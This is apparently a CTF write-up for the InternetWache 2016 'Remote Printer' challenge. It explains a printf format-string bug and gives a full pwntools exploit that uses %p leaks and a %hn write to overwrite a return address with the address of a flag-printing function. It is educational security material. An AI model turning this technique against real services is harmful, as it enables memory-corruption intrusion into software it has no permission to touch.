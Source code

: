 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-21T00:36:12+01:00"
description = ""
title = "InternetWache 2016 Remote Printer (Exploit 80) Writeup"

+++

# Problem
> Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.

(exp80, solved by 125)

Attachment: exp80.zip

Service: 188.166.133.53:12377

# Solution

This one was a bit harder. We are provided with a binary that listens on a port for incoming connections. When it gets a connection it reads an ip address and a port from the socket and connects to it. From the new socket, it reads the received bytes into the stack and prints it using printf(buf). Big bug here.

The buffer has the correct size but it's printed using printf(buf) which is obviously wrong.

Solution is to do a classic printf exploit which can be quite hard if you've never done it before.

There is also an extra function that reads and prints the flag, let's call it `printflag`.

Our goal is to change the return address to `printflag`.

We start off by printing some stack values using `%p`. The pointers on the stack are constant even when running it multiple times, `0xffffbcec`. Good for us, no ASLR. We can use hard coded pointers/offsets into the stack.

Now we need to find where the return address is stored since we want to overwrite it. We can do this by using math or guessing/leaking data.

`printf` has a nice feature which lets you access the stack at a specific position. `printf("%3$d", 1, 2, 3);` will print `3`. Abusing this, we can print way further down the stack.

I started out with an educated guess:

~~~python
payload = ' '.join(('%' + str(i) + '$p') for i in range(2000, 2100))
~~~

This produces a format string that will print the contents of the stack at 2000*4 until 2100*4 bytes away from our current location.

Now we search the output and look for the return address. We know it is `0x08048776` because that's the location of the instruction after `call start_server` where we should return normally.

I found it at the 63rd print, which means the index is 2063. Using this we can calculate the address of the return address to `0xffffdd0c`. This is where we want to change bytes.

Now we just need to overwrite this value `<main+0xAB> @ 0x08048776` with `<printflag> @ 0x08048867`.


# Arbitrary write with printf

So how do we change bytes with printf? This is a fun challenge if you haven't done so before. There is an operation `%n` that will write the number of bytes printed to the memory where the current argument is pointing to.

It will write it as a 32 bit value which will overwrite the whole pointer, so we don't want that. By using `%hn` we only write a *half int* which is 16 bits. It will preserve the 16 highest bits of the value and overwrite the lowest 16 bits.

What about the value then? We can control the value that is written (number of bytes printed) by adding padding to a dummy print.

Since we are overwriting `0x08048776` with `0x08048867`, we only need to write `0x8776` as a 16 bit value. `printf` supports padding of basically any size! So we start off by printing a char with exactly 0x8776 bytes of padding. `%34919c` does the trick. Now we have printed 0x8776 characters, and this is the value that `%hn` will write.

We control the address where we want to write the value to by putting it into the buffer and refering to it. This part can be tricky and in this instance the offset was `11`. `%11$hn` will write the number of printed characters to the address that we put in our input string. We need to be careful and pad the input so the address appears at the correct location.

# Full exploit

~~~python
from pwn import *
#context.log_level = 0

'''
Want to change return address to 0x08048867 (printflag function)
It is normally pointing to main+0xAB == 0x08048776
0x08048776 =>
0x08048867
LSB = 0x8867
'''

binary = './RemotePrinter'
context(os = 'linux', arch = 'x86')
elf = ELF(binary)

HOST='188.166.133.53'
PORT=12377
PWNHOST='<your ip>'
PWNPORT=1024

# local
#PWNHOST='127.0.0.1'
#PWNPORT=1024


l = listen(bindaddr='*', port=PWNPORT)
if PWNHOST == '127.0.0.1':
    r = process(binary)
else:
    r = remote(HOST, PORT)
    r.sendline(PWNHOST)
    r.sendline(str(PWNPORT))

#gdb.attach(r)

c = l.wait_for_connection()

# got from leaking once
stack = 0xffffbcec # Pointer to the input string on the stack

payload = flat(
    flat(
        "%",            # Set number of printed bytes to
        str(0x8867),    # 16 LSB of the address to printflag
        "c%",
        str(11),        # Address is located at offset 11
        "$hn"           # "h" means half = 16 bits
        ).ljust(16),    # pad it so we can find the address below
    0xffffdd0c,         # This is accessed with $11%n
    "\n"
)

c.sendline(payload)

r.recvuntil('\n\n')
print r.recvuntil('}')

~~~


YAY, FLAG: **IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}**


# References

There's a [very well written paper](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf) from 2001 that explains everything you ever need to know about this.

